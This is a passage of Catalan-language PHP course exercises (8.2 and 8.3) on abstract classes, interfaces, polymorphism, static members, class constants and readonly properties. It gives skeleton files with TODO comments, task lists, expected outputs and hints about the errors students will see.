    // i una propietat promocionada private int $visitesWeb.
    // Crida al constructor de la classe mare amb parent::__construct($nom, $email)

    // TODO 2: Implementa calcularPuntuacio(): int. La puntuació són les visites a la web multiplicades per 2

    // TODO 3: Implementa enviarNotificacio(string $missatge): string.
    // Ha de retornar el text 'Correu personal a EMAIL: MISSATGE'
}
```
:::

::: details **📄 exercici8.2/LeadEmpresa.php**

```php
<?php
// Un lead d'empresa: una organització amb empleats i pressupost
class LeadEmpresa extends Lead implements Notificable {
    // TODO 1: Defineix el constructor amb els paràmetres string $nom, string $email
    // i dues propietats promocionades: private int $empleats i private float $pressupost.
    // Crida al constructor de la classe mare amb parent::__construct($nom, $email)

    // TODO 2: Implementa calcularPuntuacio(): int. La puntuació és el nombre d'empleats
    // més els milers d'euros del pressupost (la part entera de $pressupost / 1000)

    // TODO 3: Sobreescriu descriure(): string. Ha de retornar el que retorna descriure()
    // de la classe mare (parent::descriure()) seguit del text ' - empresa de X empleats'

    // TODO 4: Implementa enviarNotificacio(string $missatge): string.
    // Ha de retornar el text 'Correu corporatiu a NOM (EMAIL): MISSATGE'
}
```
:::

::: details **📄 exercici8.2/panell_leads.php**

```php
<?php
    // TODO 1: Carrega amb require_once (i una ruta amb __DIR__), en este ordre:
    // Notificable.php, Lead.php, LeadParticular.php i LeadEmpresa.php

    // TODO 2: Crea l'array $leads amb estos quatre objectes, en este ordre:
    // - new LeadParticular('Aina Soler', 'aina@exemple.cat', 15)
    // - new LeadEmpresa('Tèxtils S.L.', 'info@textils.cat', 50, 4500)
    // - new LeadParticular('Pau Ferrer', 'pau@exemple.cat', 3)
    // - new LeadEmpresa('Econova', 'hola@econova.cat', 8, 12000)

    // TODO 3: Declara $puntuacioTotal: recorre $leads amb un foreach i suma el resultat
    // de calcularPuntuacio() de cada lead. Fixa't que no cal saber de quin tipus és cada lead

    // TODO 4: Crea l'array $notificacions: per a cada lead de $leads (en el mateix ordre), afig-hi el resultat
    // de cridar a enviarNotificacio('El teu pressupost ja està disponible.')

?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 8.2 - Herència i interfícies</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-2xl mx-auto space-y-4">

        <h1 class="text-2xl font-bold text-gray-800">Panell de leads · TechLeads</h1>

        <div class="bg-white p-4 rounded-lg shadow-md">
            <p class="text-gray-700">Puntuació total de la cartera: <span class="font-bold text-blue-700"><?= $puntuacioTotal ?></span></p>
        </div>

        <?php foreach ($leads as $i => $lead): ?>
            <div class="bg-white p-4 rounded-lg shadow-md">
                <div class="flex items-center justify-between mb-2">
                    <span class="text-xs font-semibold px-2 py-1 rounded <?= $lead instanceof LeadEmpresa ? 'bg-purple-100 text-purple-800' : 'bg-blue-100 text-blue-800' ?>">
                        <?= htmlspecialchars($lead::class) ?>
                    </span>
                    <span class="text-sm text-gray-500">Puntuació: <span class="font-bold text-gray-800"><?= $lead->calcularPuntuacio() ?></span></span>
                </div>
                <p class="text-gray-700"><?= htmlspecialchars($lead->descriure()) ?></p>
                <p class="text-sm text-gray-500 mt-1"><?= htmlspecialchars($notificacions[$i]) ?></p>
            </div>
        <?php endforeach; ?>

    </div>

</body>
</html>
```
:::

**Objectiu:** Crear una jerarquia de classes amb una classe abstracta, dues classes filles que la estenen i una interfície que implementen, i comprovar el polimorfisme: el mateix codi crida al mateix mètode sobre objectes de classes diferents.

Tasques a fer:

1. A `Lead.php`, `TODO 1`: defineix el constructor amb propietats promocionades `protected`: `string $nom` i `string $email`.
2. A `TODO 2`: declara el mètode abstracte `public calcularPuntuacio(): int` (sense cos).
3. A `TODO 3`: afig el mètode `public descriure(): string`, que retorna el text `Nom <email> - puntuació: X`, on X és el resultat de `calcularPuntuacio()`.
4. A `LeadParticular.php`, `TODO 1`: defineix el constructor amb els paràmetres `string $nom`, `string $email` i una propietat promocionada `private int $visitesWeb`, i crida al constructor de la classe mare amb `parent::__construct($nom, $email)`.
5. A `TODO 2`: implementa `calcularPuntuacio()`: les visites a la web multiplicades per 2.
6. A `TODO 3`: implementa `enviarNotificacio(string $missatge): string`, que retorna `Correu personal a EMAIL: MISSATGE`.
7. A `LeadEmpresa.php`, `TODO 1`: defineix el constructor amb `string $nom`, `string $email` i dues propietats promocionades `private`: `int $empleats` i `float $pressupost`, i crida a `parent::__construct($nom, $email)`.
8. A `TODO 2`: implementa `calcularPuntuacio()`: el nombre d'empleats més els milers d'euros del pressupost (la part entera de `$pressupost / 1000`).
9. A `TODO 3`: sobreescriu `descriure()`: ha de retornar el que retorna `parent::descriure()` seguit del text ` - empresa de X empleats`.
10. A `TODO 4`: implementa `enviarNotificacio(string $missatge): string`, que retorna `Correu corporatiu a NOM (EMAIL): MISSATGE`.
11. A `panell_leads.php`, `TODO 1`: carrega amb `require_once` (i `__DIR__`), en este ordre, `Notificable.php`, `Lead.php`, `LeadParticular.php` i `LeadEmpresa.php`.
12. A `TODO 2`: crea l'array `$leads` amb quatre objectes, en este ordre: `new LeadParticular('Aina Soler', 'aina@exemple.cat', 15)`, `new LeadEmpresa('Tèxtils S.L.', 'info@textils.cat', 50, 4500)`, `new LeadParticular('Pau Ferrer', 'pau@exemple.cat', 3)` i `new LeadEmpresa('Econova', 'hola@econova.cat', 8, 12000)`.
13. A `TODO 3`: declara `$puntuacioTotal`, sumant amb un `foreach` el resultat de `calcularPuntuacio()` de cada lead.
14. A `TODO 4`: crea l'array `$notificacions` amb el resultat de cridar a `enviarNotificacio('El teu pressupost ja està disponible.')` per a cada lead, en el mateix ordre.
15. Obri `panell_leads.php`. Les puntuacions han de ser 30, 54, 6 i 20, i la puntuació total, 110. Fixa't que les dues classes mostren notificacions diferents i que les empreses afigeixen el text dels empleats a la descripció.
16. Fes tres experiments temporals i després lleva'ls: a `panell_leads.php`, escriu `new Lead('Prova', 'prova@exemple.cat');`; a `LeadParticular.php`, comenta el mètode `calcularPuntuacio()`; i a `panell_leads.php`, posa `LeadParticular.php` abans de `Lead.php` en els `require_once`. Observa l'error de cada cas.

**Pista:** El `foreach` del panell crida a `calcularPuntuacio()`, `descriure()` i `enviarNotificacio()` sense saber si cada objecte és un `LeadParticular` o un `LeadEmpresa`: cada un executa la seua versió del mètode. Això és el **polimorfisme**. Els errors que veuràs són *Cannot instantiate abstract class Lead*, *Class LeadParticular contains 1 abstract method and must therefore be declared abstract or implement the remaining methods* i *Class "Lead" not found* (una classe filla necessita que la mare ja estiga carregada). A diferència de Java, si una classe filla defineix el seu propi constructor, PHP **no** crida automàticament al de la mare: cal fer-ho explícitament amb `parent::__construct()`. Les propietats de `Lead` són `protected` perquè les classes filles hi puguen accedir (`$this->nom`, `$this->email`). Fixa't també que la vista aplica `htmlspecialchars()` a `descriure()`, ja que el text conté `<` i `>`.

#### Exercici 8.3 — Membres estàtics, constants i readonly

**Carpeta de partida:** `exercici8.3/`, amb els fitxers `Lead.php` (la classe) i `gestio_leads.php` (la pàgina, amb la vista ja feta)

::: details **📄 exercici8.3/Lead.php**

```php
<?php
class Lead {
    // TODO 1: Defineix tres constants de classe per als estats:
    // ESTAT_NOU = 'nou', ESTAT_CONTACTAT = 'contactat' i ESTAT_TANCAT = 'tancat'

    // TODO 2: Declara una propietat estàtica privada $totalCreats de tipus int, amb valor inicial 0

    // TODO 3: Declara la propietat pública readonly int $id (sense valor inicial: s'assignarà en el constructor)
    // i la propietat privada string $estat, amb el valor inicial self::ESTAT_NOU

    // TODO 4: Defineix el constructor amb una propietat promocionada public readonly string $nom.
    // Dins del constructor, incrementa $totalCreats (amb self::) i assigna el nou valor a $this->id

    // TODO 5: Afig el mètode getEstat(): string, que retorne l'estat actual

    // TODO 6: Afig el mètode avancarEstat(): void, que faça passar l'estat de nou a contactat i de contactat a tancat.
    // Si l'estat ja és tancat, no ha de canviar (usa les constants, amb match o amb if/elseif)

    // TODO 7: Afig el mètode estàtic getTotalCreats(): int, que retorne el nombre de leads creats fins ara
}
```
:::

::: details **📄 exercici8.3/gestio_leads.php**

```php
<?php
    // TODO 1: Carrega Lead.php amb require_once i una ruta construïda amb __DIR__

    // TODO 2: Crea l'array $leads amb tres objectes: new Lead('Aina Soler'), new Lead('Marc Climent') i new Lead('Laura Sanchis')

    // TODO 3: Fes avançar l'estat del primer lead dues vegades i el del segon una vegada, amb avancarEstat().
    // El tercer lead ha de quedar com a nou

    // TODO 4: Declara $total amb el nombre de leads creats, cridant al mètode estàtic Lead::getTotalCreats()

?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 8.3 - Static, constants i readonly</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-2xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold text-gray-800">Seguiment de leads · TechLeads</h1>

        <div class="bg-white p-6 rounded-lg shadow-md">
            <p class="text-sm text-gray-500 mb-4">
                Estats possibles:
                <span class="font-mono"><?= Lead::ESTAT_NOU ?> → <?= Lead::ESTAT_CONTACTAT ?> → <?= Lead::ESTAT_TANCAT ?></span>
            </p>

            <table class="w-full text-left">
                <thead>
                    <tr class="border-b text-gray-600">
                        <th class="py-2">Id</th>
                        <th class="py-2">Nom</th>
                        <th class="py-2">Estat</th>
                    </tr>
                </thead>
                <tbody>
                    <?php foreach ($leads as $lead): ?>
                        <?php
                            $classesEstat = match ($lead->getEstat()) {
                                Lead::ESTAT_NOU       => 'bg-gray-100 text-gray-700',
                                Lead::ESTAT_CONTACTAT => 'bg-yellow-100 text-yellow-800',
                                Lead::ESTAT_TANCAT    => 'bg-green-100 text-green-800',
                            };
                        ?>
                        <tr class="border-b text-gray-700">
                            <td class="py-2">#<?= $lead->id ?></td>
                            <td class="py-2"><?= htmlspecialchars($lead->nom) ?></td>
                            <td class="py-2">
                                <span class="px-2 py-1 rounded text-sm font-semibold <?= $classesEstat ?>">
                                    <?= htmlspecialchars($lead->getEstat()) ?>
                                </span>
                            </td>
                        </tr>
                    <?php endforeach; ?>
                </tbody>
            </table>

            <p class="mt-4 text-gray-700">Leads creats: <span class="font-bold text-blue-700"><?= $total ?></span></p>
        </div>

    </div>

</body>
</html>
```
:::

**Objectiu:** Utilitzar constants de classe, una propietat estàtica compartida per totes les instàncies i propietats `readonly`, i accedir-hi amb `self::` i `::`.

Nota: `readonly` requereix PHP 8.1 o superior.

Tasques a fer:

1. A `Lead.php`, `TODO 1`: defineix tres constants de classe per als estats: `ESTAT_NOU = 'nou'`, `ESTAT_CONTACTAT = 'contactat'` i `ESTAT_TANCAT = 'tancat'`.
2. A `TODO 2`: declara una propietat estàtica privada `$totalCreats` de tipus `int`, amb valor inicial `0`.
3. A `TODO 3`: declara la propietat pública `readonly` `int $id` (sense valor inicial) i la propietat privada `string $estat` amb el valor inicial `self::ESTAT_NOU`.
4. A `TODO 4`: defineix el constructor amb una propietat promocionada `public readonly string $nom`. Dins del constructor, incrementa `$totalCreats` (amb `self::`) i assigna el nou valor a `$this->id`.
5. A `TODO 5`: afig el mètode `getEstat(): string`, que retorna l'estat actual.
6. A `TODO 6`: afig el mètode `avancarEstat(): void`, que fa passar l'estat de nou a contactat i de contactat a tancat. Si ja és tancat, no ha de canviar (usa les constants, amb `match` o amb `if`/`elseif`).
7. A `TODO 7`: afig el mètode estàtic `getTotalCreats(): int`, que retorna el nombre de leads creats fins ara.
8. A `gestio_leads.php`, `TODO 1`: carrega `Lead.php` amb `require_once` i una ruta construïda amb `__DIR__`.
9. A `TODO 2`: crea l'array `$leads` amb tres objectes: `new Lead('Aina Soler')`, `new Lead('Marc Climent')` i `new Lead('Laura Sanchis')`.
10. A `TODO 3`: fes avançar l'estat del primer lead dues vegades i el del segon una vegada, amb `avancarEstat()`. El tercer ha de quedar com a nou.
11. A `TODO 4`: declara `$total` cridant al mètode estàtic `Lead::getTotalCreats()`.
12. Obri `gestio_leads.php`. Els leads han de tindre els identificadors `#1`, `#2` i `#3`, els estats *tancat*, *contactat* i *nou*, i la pàgina ha d'indicar `Leads creats: 3`.
13. Fes tres experiments temporals i després lleva'ls: intenta modificar `$leads[0]->nom = 'Canviat';`; intenta llegir `Lead::$totalCreats` des de fora de la classe; i crea un quart lead, comprovant que el seu identificador és `#4`, que el total puja a 4 i que avançar tres vegades un mateix lead no el treu de l'estat *tancat*.

**Pista:** Una propietat estàtica pertany a la classe, no a cada objecte: totes les instàncies comparteixen el mateix `$totalCreats`, i per això serveix com a comptador. Dins de la classe s'hi accedix amb `self::$totalCreats` i, des de fora, amb `Lead::getTotalCreats()`: en tots dos casos amb `::` i no amb `->`. Una propietat `readonly` només es pot assignar una vegada i dins de la classe (normalment al constructor); per això `$id` es declara sense valor i s'assigna dins del constructor. Els errors que veuràs són *Cannot modify readonly property Lead::$nom* i *Cannot access private property Lead::$totalCreats*. Les constants (`Lead::ESTAT_NOU`) eviten escriure el text de l'estat a mà cada vegada, cosa que fàcilment produïx errors d'escriptura.